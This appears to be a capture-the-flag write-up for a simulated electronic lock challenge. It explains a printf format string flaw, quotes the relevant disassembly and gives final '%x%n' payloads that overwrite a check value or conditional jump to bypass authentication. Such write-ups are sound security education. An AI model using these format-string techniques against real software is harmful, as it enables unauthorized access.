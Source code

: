 # Addis Ababa

## Challenge overview

Lockitall LockIT Pro, rev b.03
- We have verified passwords can not be too long.
- Usernames are printed back to the user for verification.
- This lock is attached the the LockIT Pro HSM-1.

## Solution

### Solution overview

This solution utilizes a format string vulnerability to inject a code fault at a critical point in the authentication algorithm.

### Analysis

The device requires an input string in the format &lt;username&gt;:&lt;password&gt;.  The total length of the input string, including null terminator, may not be longer than 20 characters.

On analysis of the disassembled code, the input is written back out using printf(), which supports %s, %x and %n.  It does not support '\\' escapes, '$' parameters, or any other parameters.  The limited parameter options combined with the limited input size makes the format string vulnerability unsuitable for writing arbitrary values.

There are a limited number of things that we can do with this format string vulnerability.  We can provide an address to overwrite within the input string, and %x can be used to consume unwanted parameters so that %n can be aligned with the address parameter.  However, %n can only be used to write small values.  We don't have appropriate parameters or input string length to build output characters up to any arbitrary number for %n to write.  So while we can aim, we are very limited in what we can write.

### Attack

Perhaps we can clobber a single instruction, as in a clock glitch or voltage glitch attack, and affect the flow of execution.  The following section of code includes a conditional jump just before the call to unlock_door().  If we knock out either the check value at 0x448C or the conditional jump at 0x448E, we can unlock the door despite failing the authentication check.

	447c:  b012 c845      call	#0x45c8 <printf>            ; Execute format string here.
	4480:  2153           incd	sp
	4482:  3f40 0a00      mov	#0xa, r15
	4486:  b012 5045      call	#0x4550 <putchar>
	448a:  8193 0000      tst	0x0(sp)                     ; Overwrite 0x0000,
	448e:  0324           jz	#0x4496 <main+0x5e>         ; ...or overwrite conditional jump.
	4490:  b012 da44      call	#0x44da <unlock_door>       ; Profit here either way.
	4494:  053c           jmp	#0x44a0 <main+0x68>
	4496:  3012 1f45      push	#0x451f "That entry is not valid."
	449a:  b012 c845      call	#0x45c8 <printf>
	449e:  2153           incd	sp
	44a0:  0f43           clr	r15
	44a2:  3150 1600      add	#0x16, sp
	44a6 <__stop_progExec__>
	44a6:  32d0 f000      bis	#0xf0, sr
	44aa:  fd3f           jmp	#0x44a6 <__stop_progExec__+0x0>

Just ignore for a moment whether or not this device has any code protection, or is running code from flash.  Let's try it anyway.

The following input strings should implement our attack:

	"\x8C\x44%x%n" or "\x8E\x44%x%n"

Broken down as follows:
* \x8C\x44 is the address of the check value that we want to overwrite (solution 1).
* \x8E\x44 is the address of the conditional jump that we want to overwrite (solution 2).
* %x consumes a parameter, so that %n will align with the address at the beginning of the input string.
* %n writes out the number of characters written so far (0x0002).

The final solutions, provided as hex input: 8C442578256E or 8E442578256E
